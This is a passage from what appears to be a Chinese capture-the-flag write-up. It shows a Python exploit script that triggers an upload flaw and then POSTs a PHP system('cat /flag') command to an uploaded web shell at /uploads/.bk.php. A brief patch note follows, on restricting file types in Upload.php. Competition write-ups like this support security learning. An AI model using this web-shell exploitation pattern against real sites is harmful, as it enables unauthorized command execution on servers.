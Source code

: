 ```python
    'Connection': 'close',
    'Cookie': 'PHPSESSID=99b2ca34904520b4085d5a9ada60fd6b',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'none',
    'Sec-Fetch-User': '?1',
    'Content-Type': 'application/x-www-form-urlencoded'
  }
  try:
    response = requests.get(url,headers=headers,timeout=1)
  except:
    pass

def gogo():
  url = uri+'/uploads/.bk.php'
  headers = {
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Cookie': 'PHPSESSID=99b2ca34904520b4085d5a9ada60fd6b',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'none',
    'Sec-Fetch-User': '?1',
    'Content-Type': 'application/x-www-form-urlencoded'
  }

  data = {
    'cmd': "system('cat /flag');"
  }

  response = requests.post(url, headers=headers, data=data)

  print(response.text)

get1()
gogo()
```

### PATCH编写

#### Upload.php 修复

我直接写死了`file_type`不允许配置文件覆盖。
